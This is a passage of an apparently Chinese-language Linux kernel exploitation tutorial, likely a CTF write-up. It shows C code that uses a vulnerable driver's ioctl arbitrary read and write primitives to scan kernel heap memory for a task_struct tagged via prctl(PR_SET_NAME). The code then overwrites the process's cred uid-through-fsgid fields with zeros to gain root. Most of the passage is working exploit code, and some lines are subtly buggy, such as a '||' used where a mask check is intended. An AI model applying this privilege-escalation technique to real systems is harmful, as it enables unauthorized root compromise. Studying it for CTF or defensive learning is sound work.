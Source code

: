 `task_struct`里有个`char comm[TASK_COMM_LEN];`成员，可通过`PRCTL`函数中的`PR_SET_NAME`功能，设置为指定的一个小于`16`字节的字符串：

```
char target[16] = "This_is_target!";
prctl(PR_SET_NAME,target);
```

`task_struct`是通过调用`kmem_cache_alloc_node()`分配的，所以`task_struct`应该存在于内核的动态分配区域。因此我们的寻找范围应该在`0xFFFF880000000000~0xFFFFC80000000000`。

```
size_t cred , real_cred , target_addr;
char *buff = malloc(0x1000);

for (size_t addr=0xFFFF880000000000; addr&lt;0xFFFFC80000000000; addr+=0x1000)
`{`
    struct seek_args s_args;
    struct read_args r_args;

    s_args.new_pos = addr - 0x10;
    ioctl(fd, 0x8008FE0A, &amp;s_args);

    r_args.buff = buff;
    r_args.count = 0x1000;
    ioctl(fd, 0xC008FE09, &amp;r_args);

    int result = memmem(buff,0x1000,target,16);
    if (result)
    `{`
        printf("[+] Find try2findmesauce at : %pn",result);
        cred = *(size_t *)(result - 0x8);
        real_cred = *(size_t *)(result - 0x10);
        if ((cred || 0xff00000000000000) &amp;&amp; (real_cred == cred))
        `{`
            target_addr = addr+result-(long int)(buff);
            printf("[+] found task_struct 0x%xn",target_addr);
            printf("[+] found cred 0x%lxn",real_cred);
            break;
        `}`
    `}`
`}`
```

#### 篡改`cred`结构体

我们在这里将结构体的`uid~fsgid`(即前`28`个字节)全部覆写为`0`。

```
int root_cred[12];
memset((char *)root_cred,0,28);

struct seek_args s_args1;
struct write_args w_args;

s_args1.new_pos=cred-0x10;
ioctl(fd,0x8008FE0A,&amp;s_args1);
w_args.buff=root_cred;
w_args.count=28;
ioctl(fd,0x8008FE0B,&amp;w_args);
```
